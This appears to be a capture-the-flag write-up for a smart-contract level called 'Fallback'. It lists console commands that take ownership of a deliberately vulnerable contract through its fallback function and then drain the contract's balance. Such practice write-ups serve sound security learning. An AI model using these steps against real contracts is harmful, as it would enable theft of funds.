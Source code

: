 # Fallback

## Description

You will beat this level if:

- you claim ownership of the contract
- you reduce its balance to 0

## Solution

1. Noticed that the fallback function has the ability to change the owner
2. Viewed owner contributions with `await contract.contributions(await contract.owner())`
3. Made a minor contribution with `await contract.contribute({ value: 1 })`
4. Triggered the fallback function (and took ownership) with `await contract.send(1e17)`
5. Drained the contract with `await contract.withdraw()`